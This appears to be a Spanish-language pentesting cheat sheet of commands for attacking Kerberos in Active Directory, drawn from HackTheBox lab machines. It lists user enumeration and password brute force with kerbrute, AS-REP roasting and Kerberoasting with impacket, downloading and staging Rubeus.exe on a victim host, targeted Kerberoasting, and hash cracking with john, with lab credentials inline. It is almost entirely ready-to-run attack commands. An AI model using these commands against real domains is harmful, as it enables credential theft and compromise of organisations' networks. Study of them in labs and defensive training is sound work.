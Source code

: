 
### ENUMERACIÓN DE USUARIOS
```shell
❯ kerbrute userenum --dc 10.10.10.192 -d blackfield.local users
```

### FUERZA BRUTA
```shell
#DE USUARIOS
❯ kerbrute userenum --dc 10.10.11.250 -d analysis.htb /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt

#DE CONTRASEAÑAS TENIENDO UN USUARIOS
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local passFile Victim-Username
```


### ASREPRoast
```shell
❯ GetNPUsers.py htb.local/ -no-pass -usersfile users
```


### VERIFICAR SI ES KERBEROASTEABLE TGT
```shell
#CON CREDENCIALES
❯ GetUserSPNs.py MEGABANK.LOCAL/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172

❯ GetUserSPNs.py MEGABANK.LOCAL/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -k #OPERAR POR KERBEROOS
#GetUserSPNs se utiliza para identificar cuentas de servicio a través de los SPNs que están asociados con ellas.
```


### KERBEROS PRE-AUTHENTICATION
```shell
# SIN CREDENCIALES
❯ impacket-GetNPUsers -no-pass -usersfile users hospital.htb/

# CON CREDENCIALES
❯ impacket-GetNPUsers 'hospital.htb/drwilliams:qwe123!@#'

#GetNPUsers se utiliza para identificar cuentas vulnerables que no requieren preautenticación Kerberos.
```

### SOLICITAR EL TGT
```shell
#SIN CREDENCIALES
❯ impacket-GetNPUsers -no-pass -usersfile users hospital.htb/ -request
```


### USUARIOS KERBEROASTEABLES CON CREDENCIALES
```shell
❯ GetUserSPNs.py htb.local/amanda:Ashare1972
```


### ATAQUE DE KERBEROS EN LA MÁQUINA
```shell
[SUBIDA DEL ARCHIVO]
	❯ wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/Rubeus.exe
❯ sudo python3 -m http.server 80
PS C:\Windows\Temp\Recon> .\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

```shell
When the attacker can add SPN ( ServicePrincipalName ) to the target account and once the account has that SPN, it becomes vulnerable to kerberoasting.
```

```shell
git clone https://github.com/ShutdownRepo/targetedKerberoast
cd targetedKerberoast
pip3 install -r requirements.txt --break-system-packages
sudo rdate -n 10.10.11.42

python3 targetedKerberoast.py -v -d 'Administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

john hash --wordlist=/usr/share/wordlists/rockyou.txt
```